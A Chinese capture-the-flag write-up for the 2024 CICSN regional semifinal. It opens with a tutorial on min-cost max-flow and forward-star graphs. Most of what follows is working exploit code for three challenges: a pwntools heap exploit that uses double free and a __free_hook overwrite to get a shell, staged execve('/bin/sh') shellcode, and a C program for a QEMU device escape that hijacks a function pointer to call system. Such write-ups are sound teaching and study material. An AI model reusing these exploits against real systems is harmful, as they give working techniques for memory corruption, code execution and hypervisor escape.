# 2024 CICSN 西南赛区半决赛


## 前言
~~不能上网搜索真是太痛苦了~~ 
## mcmf

#### 结构定义

链式前向星的基本思想是为图中每个顶点维护一个链表，链表中的每个节点表示从该顶点出发的一条边，节点中通常存放目标顶点编号和边的权值（如果有的话）。这样通过遍历链表就能快速访问每个顶点的邻接顶点。

以 C++ 为例，一个简单的链式前向星节点定义可能如下：

```cpp
struct Edge {
    int to;      // 目标顶点编号
    int weight;  // 边的权值，可选，对于无权图可以忽略
    int next;    // 指向下一条边的指针，构成链表
};
```

同时，还需要一个数组（或 vector）记录每个顶点链表头节点的位置，以及一个全局的边数组（或 vector）存放所有边的信息。

```cpp
const int MAXN = 100005; // 最大顶点数
Edge edge[MAXN << 1];   // 存储边，大小预估为最大顶点数的两倍，防止重边时越界
int head[MAXN], edgeCount; // head[i]表示第i个顶点的链表头指针，edgeCount记录当前边的数量

// 初始化
void init() {
    memset(head, -1, sizeof(head)); // 初始时，每个顶点的链表头指针都设为-1
    edgeCount = 0;
}
```

#### 添加边

要添加一条从 `from` 到 `to` 的边，可以这样做：

```cpp
void addEdge(int from, int to, int weight = 1) {
    edge[edgeCount].to = to;
    edge[edgeCount].weight = weight;
    edge[edgeCount].next = head[from];
    head[from] = edgeCount++;
}
```

#### 遍历邻接顶点

要遍历某个顶点的所有邻接顶点，可以用一个循环：

```cpp
void traverseAdj(int vertex) {
    for(int i = head[vertex]; i != -1; i = edge[i].next) {
        int adjVertex = edge[i].to;
        // 在此处处理与adjVertex的关系，比如打印、进一步计算等
        printf("Adjacent vertex of %d is %d\n", vertex, adjVertex);
    }
}
```

#### 示例场景

假设有一个包含多个节点的物流网络，目标是把货物从工厂（源点 S）运送到多个配送中心（中间节点），再分发到各个销售点（汇点集合 T1、T2、T3）。网络如下：

- **节点**：S（源点）、A、B、C（中间节点）、T1、T2、T3（汇点）
- **边及属性**：
  - S 到 A：容量 20 单位，费用 5 元/单位
  - S 到 B：容量 15 单位，费用 4 元/单位
  - A 到 B：容量 10 单位，费用 3 元/单位
  - A 到 C：容量 12 单位，费用 2 元/单位
  - B 到 C：容量 8 单位，费用 2 元/单位
  - B 到 T1：容量 10 单位，费用 6 元/单位
  - C 到 T2：容量 15 单位，费用 4 元/单位
  - C 到 T3：容量 20 单位，费用 3 元/单位

目标是在使总费用最小的同时，使从 S 到所有 T 的总运输量最大。

#### 求解步骤

##### 1. 初始化

- 初始化网络结构，记录每条边的容量和费用。
- 用距离数组 `dist[]` 记录到各节点的最短距离（初始时除源点 S 为 0 外，其余都为无穷大）。
- 为 SPFA 算法初始化一个队列。

##### 2. 应用 SPFA 寻找最小费用增广路

- **起点**：从源点 S 出发。
- **松弛操作**：对 S 的每个邻接节点（A 和 B），计算经过 S 到达它们的费用并更新其最短距离，然后把这些节点加入队列。
- **队列处理**：从队列中取出一个顶点，对该顶点的每个邻接顶点，尝试通过当前顶点松弛到该邻接顶点的路径。如果松弛成功，就标记该邻接顶点并将其加入队列。该过程持续进行，直到队列为空或找到一条到某个汇点的路径。


#### 3. 增广操作

1. **寻找增广路**：在 MCMF 问题中，我们先用 SPFA 之类的算法找到一条从源点 S 到某个汇点（这里以 T1 为例）的最小费用路径。在本例中，找到的路径是 S->B->T1。

2. **确定增广量**：这条路径的"最小剩余容量"指的是路径中容量最小的那条边还能额外通过多少流量。如果 S->B 的容量是 15 单位，B->T1 的容量是 10 单位，那么整条路径的最小剩余容量就是 10 单位，因为 B 到 T1 的容量限制了整条路径能承载的最大流量。

3. **计算总费用**：确定增广量（10 单位）后，需要计算沿这条路径增广的总费用。根据每条边的费用，S 到 B 的费用是 4 元/单位，B 到 T1 的费用是 6 元/单位，所以通过 10 单位流量的总费用为 \(10 \times (4 + 6) = 100\) 元。

4. **更新网络状态**：增广操作完成后，必须更新路径上各条边的剩余容量。由于通过 S->B->T1 路径增加了 10 单位流量，S 到 B 的剩余容量从 15 单位减少到 5 单位（15-10=5），B 到 T1 的剩余容量变为 0（因为已被完全使用）。

5. **重复该过程**：完成一次增广后，需要继续寻找新的增广路。由于 B 到 T1 的路径已被完全利用，SPFA 算法会探索其他路径，例如从 S 经过其他节点（如 A、C）到达其他汇点（T2 或 T3）。找到新路径后，再次执行增广操作，更新相应边的流量和剩余容量，并累加总费用。


##### 4. 终止条件

- 当找不到新的增广路时，算法结束。

#### 结果分析

- **最大流**：通过不断增广，最终得到从 S 到所有 T 的最大可能运输量。
- **最小费用**：所有增广路的费用之和就是最小费用。


### 逆向
参考源码 [https://blog.csdn.net/sugarbliss/article/details/89195128](https://blog.csdn.net/sugarbliss/article/details/89195128)

```c
#include<cstdio>
#include<cstring>
#include<algorithm>
#include<queue>
#define inf 0x3f3f3f3f
using namespace std;
const int maxn = 1e5 + 7;
 
bool vis[maxn];
int n,m,s,t,x,y,z,f,dis[maxn],pre[maxn],last[maxn],flow[maxn],maxflow,mincost;
//dis最小花费;pre每个点的前驱；last每个点的所连的前一条边；flow源点到此处的流量
struct node{int next,to,flow,dis;}edge[maxn];//flow流量 dis花费
int head[maxn],cnt;
queue <int> q;
 
void add(int u,int v,int flow,int dis)
{
    edge[cnt] = (node){head[u],v,flow,dis}; head[u] = cnt++;
    edge[cnt] = (node){head[v],u,0,-dis}; head[v] = cnt++;
     //反边的流量为0，花费是相反数
}
 
bool spfa(int s,int t)
{
    for(int i = 0; i < t + 10; i++)
        dis[i] = inf, flow[i] = inf, vis[i] = 0;
    q.push(s); vis[s] = 1; dis[s] = 0; pre[t] = -1;
    while (!q.empty())
    {
        int now = q.front();
        q.pop();
        vis[now] = 0;
        for (int i = head[now]; i != -1; i = edge[i].next)
        {
            if (edge[i].flow > 0 && dis[edge[i].to] > dis[now] + edge[i].dis)//正边
            {
                dis[edge[i].to] = dis[now] + edge[i].dis;
                pre[edge[i].to] = now;
                last[edge[i].to] = i;
                flow[edge[i].to] = min(flow[now],edge[i].flow);//
                if (!vis[edge[i].to])
                {
                    vis[edge[i].to] = 1;
                    q.push(edge[i].to);
                }
            }
        }
    }
    return pre[t] != -1;
}
 
void MCMF()
{
    maxflow = 0, mincost = 0;
    while(spfa(s,t))
    {
        int now = t;
        maxflow += flow[t];
        mincost += flow[t]*dis[t];
        while (now != s)
        {//从源点一直回溯到汇点
            edge[last[now]].flow -= flow[t];//flow和dis容易搞混
            edge[last[now]^1].flow += flow[t];
            now = pre[now];
        }
    }
}
 
int main()
{
    memset(head,-1,sizeof(head)); cnt = 0;//初始化
    scanf("%d%d%d%d",&n,&m,&s,&t);
    for(int i = 1; i <= m; i++)
    {
        scanf("%d%d%d%d",&x,&y,&z,&f);
        add(x,y,z,f);
    }
    MCMF();
    printf("%d %d",maxflow,mincost);
    return 0;
}
```

### main

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init();
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      __isoc99_scanf("%d", &v3);
      if ( v3 != 4 )
        break;
      calc();
    }
    if ( v3 > 4 )
      break;
    switch ( v3 )
    {
      case 3:
        del();
        break;
      case 1:
        add();
        break;
      case 2:
        edit();
        break;
      default:
        goto LABEL_12;
    }
  }
LABEL_12:
  exit(-1);
}
```

### cal

```c
unsigned __int64 calc(void)
{
  int begin; // [rsp+0h] [rbp-10h] BYREF
  int end; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("from?");
  __isoc99_scanf("%d", &begin);
  puts("to?");
  __isoc99_scanf("%d", &end);
  addEdge(101, begin, 0x3F3F3F3F, 0, 0LL);
  addEdge(begin, 101, 0, 0, 0LL);
  addEdge(end, 102, 0x3F3F3F3F, 0, 0LL);
  addEdge(102, end, 0, 0, 0LL);
  mincostmaxflow(101, 102);
  printf("%lld\n", mincost);
  if ( mincost <= 0xDEADBEEFLL )
    exit(0);
  libc();
  return __readfsqword(0x28u) ^ v3;
}
```
### del

```c
unsigned __int64 del(void)
{
  int begin; // [rsp+8h] [rbp-18h] BYREF
  int end; // [rsp+Ch] [rbp-14h] BYREF
  int i; // [rsp+10h] [rbp-10h]
  int v4; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("from?");
  __isoc99_scanf("%d", &begin);
  puts("to?");
  __isoc99_scanf("%d", &end);
  if ( head[begin] == -1 )                      // 以该节点出发的没有边
    return __readfsqword(0x28u) ^ v5;
  if ( edges[head[begin]]->end == end )         // head_begin是最后一条边的索引
  {
    i = head[begin];
LABEL_10:
    if ( edges[i] )
      free(edges[i]);                           // double free 
    puts("done.");
    return __readfsqword(0x28u) ^ v5;
  }
  for ( i = head[begin]; i != -1; i = edges[i]->next )
  {
    if ( edges[edges[i]->next]->end == end )    // 下一条边的
    {
      v4 = i;
      i = edges[i]->next;
      edges[v4]->next = edges[edges[v4]->next]->next;// 删掉 把下一条边的next赋值给当前边的next
      break;
    }
  }
  if ( i != -1 )
    goto LABEL_10;
  return __readfsqword(0x28u) ^ v5;
}
```
### add

```c
unsigned __int64 add(void)
{
  int begin; // [rsp+0h] [rbp-20h] BYREF
  int end; // [rsp+4h] [rbp-1Ch] BYREF
  int cost; // [rsp+8h] [rbp-18h] BYREF
  int flow; // [rsp+Ch] [rbp-14h] BYREF
  __int64 value; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  puts("from?");
  __isoc99_scanf("%d", &begin);
  puts("to?");
  __isoc99_scanf("%d", &end);
  puts("value?");
  __isoc99_scanf("%lld", &value);
  puts("cost?");
  __isoc99_scanf("%d", &cost);
  puts("flow?");
  __isoc99_scanf("%d", &flow);
  addEdge(begin % 100, end % 100, flow % 10, cost % 10, value);// 正方向
  addEdge(end % 100, begin % 100, 0, -cost % 10, -value);// 反方向
  printf("gift: %p\n", (const void *)(edges[ege_count - 2] & 0xFFFLL));
  return __readfsqword(0x28u) ^ v6;
}
```
### edit

```c
unsigned __int64 edit(void)
{
  unsigned int index; // [rsp+4h] [rbp-1Ch] BYREF
  __int64 new_value; // [rsp+8h] [rbp-18h] BYREF
  __int64 new_cost; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("index?");
  __isoc99_scanf("%d", &index);
  if ( index <= 0x63 && edges[index] )          // edit after free
  {
    printf("The value now is: %lld\n", edges[index]->value);
    printf("The cost is now: %d\n", (unsigned int)edges[index]->cost);
    puts("new value?");
    __isoc99_scanf("%lld", &new_value);
    puts("new cost?");
    __isoc99_scanf("%lld", &new_cost);
    edges[index]->value = new_value;
    edges[index]->cost = new_cost % 10;
  }
  return __readfsqword(0x28u) ^ v4;
}
```

## 思路
1. double free 和 edit after free，2.31，利用被释放的 chunk 修改 cost 和 flow 的值来绕过 mincost 并泄露 libc
2. 然后做一个高版本的 double free 覆盖 free_hook，再 free 一条 value 部分为 /bin/sh 的边即可
## exp

```python
from pwn import *
 

libc = ELF("./libc-2.31.so")
p = process("./pwn")
 
context(arch="amd64",os="linux")
context.log_level = 'debug'
context.terminal = ['tmux', 'sp', '-h']

 
def add(fro, end, value, cost, flow):
    p.sendlineafter(b"choice: ", b"1")
    p.sendlineafter(b"from?\n", str(fro).encode())
    p.sendlineafter(b"to?\n", str(end).encode())
    p.sendlineafter(b"value?\n", str(value).encode())
    p.sendlineafter(b"cost?\n", str(cost).encode())
    p.sendlineafter(b"flow?\n", str(flow).encode())
 
 
def edit(index, value, cost):
    p.sendlineafter(b"choice: ", b"2")
    p.sendlineafter(b"index?\n", str(index).encode())
    p.sendlineafter(b"value?\n", str(value).encode())
    p.sendlineafter(b"cost?\n", str(cost).encode())
 
 
def delete(fro, end):
    p.sendlineafter(b"choice: ", b"3")
    p.sendlineafter(b"from?\n", str(fro).encode())
    p.sendlineafter(b"to?\n", str(end).encode())
 
 
def calc(fro, end):
    p.sendlineafter(b"choice: ", b"4")
    p.sendlineafter(b"from?\n", str(fro).encode())
    p.sendlineafter(b"to?\n", str(end).encode())


add(0,1,1,1,1)
add(10,11,1,1,1)
add(20,21,1,1,1)

delete(0,1)
delete(1,0)
delete(10,11)
delete(11,10)
delete(20,21)
delete(21,20)
#利用残留的key部分绕过minicost泄漏libc地址
calc(0,1)
p.recvuntil(b"gitf: ")
libcbase=p.recv(14)
libcbase=int(libcbase,16)-0x1ecbe0

print("libc ",hex(libcbase))
pause()
# 高版本doublefree
add(2,3,1,1,1)
add(4,5,1,1,1)
add(6,7,1,1,1)
add(8,9,1,1,1)
add(10,11,1,1,1)


delete(2,3)
delete(3,2)
delete(4,5)
delete(5,4)
delete(6,7)
delete(7,6)
delete(8,9)

delete(9,8) #到fastbin中去
delete(10,11)
delete(9,8) # fastbin double free

add(2,3,1,1,1)
add(4,5,1,1,1)
add(6,7,1,1,1)
add(8,9,1,1,1)
free_hook=libcbase+0x1eee48
print("free_hook",hex(free_hook))
print("free_hook", str(free_hook-8))   
system=libcbase+0x52290

gadget=libcbase+0xe3b04 #0xe3b01  0xe3b04 
edit(0x1b,free_hook,1)

add(1,2,1,1,1)
# gdb.attach(p)
add(1,2,system,0,0)

#2f 62 69 6e 2f 73 68     0x0068732f6e69622f 68 73  2f   6e   69    62 2f
p.recvuntil(b"gift: ")
heap=p.recvuntil(b"\n")[:-1]
heap=int(heap,16)
print("heap",hex(heap))
pause()
add(1,2,0x0068732f6e69622f,1,1)
delete(1,2)

# add(50,51,1,1,1)

# delete(50,51)
# delete(51,50)
# pause()
# edit(0x21,heap,heap)

p.interactive()
```


## vlun
[https://survive2.github.io/posts/d743632a/](https://survive2.github.io/posts/d743632a/)
写入 0x10 字节的 shellcode，保护全关
- 写一个 read 系统调用来扩充 shellcode
- read 结束后会执行 read 写入的 shellcode

movabs 执行前 rdi 已经是 0 了，所以直接赋值 /bin/sh 即可
### exp
```python
from pwn import *
context(os="linux",arch="amd64")
p=process("./pwn")

gdb.attach(p)
pause()
p.sendlineafter(b"input name:",b"a"*38)


#没啥用
# pwndbg> plt
# Section .plt 0x400570-0x4005e0:
# 0x400580: strcpy@plt
# 0x400590: puts@plt
# 0x4005a0: strlen@plt
# 0x4005b0: setbuf@plt
# 0x4005c0: fgets@plt
# 0x4005d0: exit@plt


# pwndbg> got

# /home/llk/Desktop/复赛/vuln/vuln:     file format elf64-x86-64

# DYNAMIC RELOCATION RECORDS
# OFFSET           TYPE              VALUE
# 0000000000600ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
# 0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
# 0000000000601060 R_X86_64_COPY     stdout@GLIBC_2.2.5
# 0000000000601070 R_X86_64_COPY     stdin@GLIBC_2.2.5
# 0000000000601018 R_X86_64_JUMP_SLOT  strcpy@GLIBC_2.2.5
# 0000000000601020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
# 0000000000601028 R_X86_64_JUMP_SLOT  strlen@GLIBC_2.2.5
# 0000000000601030 R_X86_64_JUMP_SLOT  setbuf@GLIBC_2.2.5
# 0000000000601038 R_X86_64_JUMP_SLOT  fgets@GLIBC_2.2.5
# 0000000000601040 R_X86_64_JUMP_SLOT  exit@GLIBC_2.2.5

code='''
xor rax,rax
push rcx
pop rsi
xor rdi,rdi
syscall 
'''
# 再次读取大量
asmm=asm(code,arch="amd64")
print(asmm)
p.sendline(asmm)

code='''
xor rax,rax
push rcx
pop rsi
xor rdi,rdi
syscall     
mov rdi,0x68732f6e69622f
push rdi
push rsp
pop rdi 
xor rsi,rsi
xor rdx,rdx
push 59
pop rax
syscall
'''
asmm=asm(code)
print(asmm)
p.sendline(asmm)


p.interactive()


```


##  qeme
显然是 QEMU 逃逸，启动时添加了一个设备


### 启动失败
[解决方法
](https://blog.csdn.net/wp133716/article/details/107197125)


由于我用的是 zsh，所以把加载共享库路径的环境变量导入到了 ~/.zshrc 中

### 保护

没有符号表，可恶..
### 逆向
直接搜索 edu-mimo，没有 edu-pmio

找到 mmio_read 和 mmio_write 函数


```c
__int64 __fastcall edu_mmio_read(__int64 pcistat, int addr)
{
  __int64 v2; // r12
  __int64 result; // rax

  if ( addr > 36 )
  {
    if ( addr == 144 )
      return *(_QWORD *)(pcistat + 3056);
    if ( addr <= 144 )
    {
      if ( addr == 128 )
        return *(_QWORD *)(pcistat + 3040);
      if ( addr == 136 )
        return *(_QWORD *)(pcistat + 3048);
    }
    else if ( addr == 152 )
    {
      return *(_QWORD *)(pcistat + 3064);
    }
    return v2;
  }
  if ( addr < 0 )
    return v2;
  switch ( addr )
  {
    case 0:
      result = v2;
      *(_QWORD *)(pcistat + 2632) = sub_399AE0;
      break;
    case 4:
      return 1LL;
    case 8:
      result = qword_FD9C60;
      break;
    case 32:
      (*(void (__fastcall **)(const char *))(pcistat + 2632))("cat flag");
      result = v2;
      break;
    case 36:
      result = *(unsigned int *)(pcistat + 3036);
      break;
    default:
      return v2;
  }
  return result;
}
```
pcistat + 2632 处存放了一个函数指针，盲猜是越界写把它覆盖为 system 函数
```c
void __fastcall edu_mmio_write(__int64 pcistat, int addr, __int64 size)
{
  int v3; // ebx
  __int64 v4; // rax
  volatile signed __int32 *v5; // rbp
  bool v6; // zf
  int v7; // edx
  unsigned int v8; // esi

  v3 = size;
  if ( addr == 96 )
  {
    v6 = ((unsigned int)size | *(_DWORD *)(pcistat + 3036)) == 0;
    *(_DWORD *)(pcistat + 3036) |= size;
    if ( v6 )
      return;
    if ( (unsigned __int8)sub_3E90F0(pcistat) )
    {
      sub_3E9630(pcistat, 0);
      return;
    }
    v8 = 1;
    goto LABEL_33;
  }
  if ( addr <= 96 )
  {
    switch ( addr )
    {
      case 0:
        *(_QWORD *)(pcistat + 2632) = size;
        break;
      case 4:
        *(_QWORD *)(pcistat + 2592) = ~size;
        break;
      case 7:
        if ( (*(_DWORD *)(pcistat + 3032) & 1) == 0 )
        {
          off_FD77B0(pcistat + 2920, "../hw/misc/edu.c", 280LL);
          *(_DWORD *)(pcistat + 3028) = v3;
          _InterlockedOr((volatile signed __int32 *)(pcistat + 3032), 1u);
          sub_7FCA90(pcistat + 2968, "../hw/misc/edu.c");
          sub_7FC690((pthread_mutex_t *)(pcistat + 2920));
        }
        break;
      case 8:
        (*(void (__fastcall **)(const char *))(pcistat + 2632))("1");
        qword_FD9C60 = (__int64)sub_399AE0;
        break;
      case 32:
        v5 = (volatile signed __int32 *)(pcistat + 3032);
        if ( (size & 0x80) != 0 )
          _InterlockedOr(v5, 0x80u);
        else
          _InterlockedAnd(v5, 0xFFFFFF7F);
        break;
      default:
        return;
    }
  }
  else
  {
    if ( addr != 136 )
    {
      if ( addr > 136 )
      {
        if ( addr == 144 )
        {
          if ( (*(_BYTE *)(pcistat + 3064) & 1) == 0 )
            *(_QWORD *)(pcistat + 3056) = size;
        }
        else if ( addr == 152 && (size & 1) != 0 && (*(_BYTE *)(pcistat + 3064) & 1) == 0 )
        {
          *(_QWORD *)(pcistat + 3064) = size;
          v4 = sub_81C420(1LL);
          sub_81C340(pcistat + 3072, v4 / 1000000 + 100);
        }
        return;
      }
      if ( addr != 100 )
      {
        if ( addr == 128 && (*(_BYTE *)(pcistat + 3064) & 1) == 0 )
          *(_QWORD *)(pcistat + 3040) = size;
        return;
      }
      v7 = ~(_DWORD)size;
      v6 = (v7 & *(_DWORD *)(pcistat + 3036)) == 0;
      *(_DWORD *)(pcistat + 3036) &= v7;
      if ( !v6 || (unsigned __int8)sub_3E90F0(pcistat) )
        return;
      v8 = 0;
LABEL_33:
      sub_3EE600(pcistat, v8);
      return;
    }
    if ( (*(_BYTE *)(pcistat + 3064) & 1) == 0 )
      *(_QWORD *)(pcistat + 3048) = size;
  }
}
```
确实存在对 pcistat + 2632 的写入，下一步就是泄露 libc 地址
## 题目提供的脚本模板在解压后的 root 文件中

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <stdint.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/io.h>

void * mmio_base;

uint32_t mmio_read(uint32_t addr,uint32_t size){
    return *(uint32_t *)(mmio_base + addr);
}

void mmio_write(uint32_t addr, uint64_t val,uint32_t size){
    if (size == 1)
    {
        *((uint8_t*)(mmio_base + addr)) = val;
    }else if (size == 2)
    {
        *((uint16_t*)(mmio_base + addr)) = val;
    }else if (size == 4)
    {
        *((uint32_t*)(mmio_base + addr)) = val;
    }else if (size == 8)
    {
        *((uint64_t*)(mmio_base + addr)) = val;
    }
}

void exec_hello(uint64_t cmd,unsigned size)
{
    mmio_read(0x00 & cmd,size);
}

uint32_t read_from_heap(uint8_t cmd,uint8_t idx,uint16_t offset,unsigned size)
{
    uint32_t addr,val;
    addr = (cmd << 24) & 0xFF000000;
    addr = ((idx << 16) & 0xFF0000) | addr;
    addr = (offset & 0xFFFF) | addr;
    val = mmio_read(addr,size);
    return val;
}

void edit(uint8_t cmd,uint8_t idx,uint16_t offset,unsigned size,uint64_t *val)
{
    uint32_t addr;
    addr = (cmd << 24) & 0xFF000000;
    addr = ((idx <<16) & 0xFF0000 ) | addr;
    addr = (offset & 0xFFFF) | addr;
    mmio_write(addr,val,size);
}

void over_write(uint8_t cmd,unsigned size,uint64_t *val) //越界写edu
{
    uint32_t addr;
    addr = (cmd << 24) & 0xFF000000;
    mmio_write(addr,val,8);
}

void malloc(uint8_t cmd,uint64_t counts,unsigned size)
{
    uint32_t addr;
    addr = (cmd << 24) & 0xFF000000;
    mmio_write(addr,counts,size);
}

void free(uint8_t cmd,uint8_t idx)
{
    uint32_t addr;
    addr = (cmd << 24) & 0xFF000000;
    addr = ((idx << 16) & 0xFF0000) | addr;
    mmio_write(addr,1,1);
}

void nor(uint8_t cmd,int64_t val)
{
    uint32_t addr;
    addr = (cmd << 24) & 0xFF000000;
    mmio_write(addr,val,8);
}

int main(){
    int  mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    mmio_base = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    

}

```


~~不太理解为什么要设置这些 (cmd << 24) & 0xFF000000;。调试时发现根本进不到 edu_mmio_read 或 edu_mmio_write，也不知道处理逻辑是什么。只能看到出现 segment fault，后面跟着一些 libc 地址、堆地址以及相关寄存器的值，但这些都是虚拟地址，而且脚本崩溃了，~~ 


## 。。。。。。

> 问了 Qanux 大佬，他帮我联系了出题人，才知道解压得到的 root 文件根本不是用来交互的……不知道这东西为什么存在，但还是感谢大佬们的帮助

疑惑解开了，再看一遍就很明显了…… ~~怪自己太菜，总想着通过给的 root 脚本找出路~~ 

泄露地址后直接写函数指针就可以了

在 mmio_read 函数中，它会读取 qword_FD9C60 的值

在 mmio_write 函数中，会调用一个函数，然后把 sub_399AE0 赋值给 qword_FD9C60，这里就可以泄露 PIE 基址






正好有 system 函数，搞定！！！

只写低三位偏移即可

## exp

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <stdint.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/io.h>

void*mmio_base;
uint32_t mmio_read(uint32_t addr )
{
   return *(uint32_t*)(mmio_base+addr);
}
uint64_t mmio_read_8(uint32_t addr )
{
   return *((uint64_t*)(mmio_base+addr));
}

void mmio_write(uint32_t addr,uint64_t size,uint64_t val)
{
     *(uint64_t *)(mmio_base + addr) = val;
}

int main()
{   
    setbuf(stdin,0);
    setbuf(stdout,0);//立即显示到终端上
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    mmio_base = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    mmio_read(0);
    mmio_write(8,8,10);
    uint64_t libc=mmio_read_8(8); //知道低32位就足够了
    printf("pie %p",libc); //printf("pie %x",libc);只会输出低32个字节
    uint64_t sys=libc+0x144919-0x209509;  //直接设置地址为00000000004DE3F9         call    _system会存在对齐出错，直接为system的plt表上的地址,使得rsp对齐
    mmio_write(0,1,sys);
    mmio_read(32); 
    return 0;
}
```



# 2024 cicsn Ezheap


## 检查 libc2.35


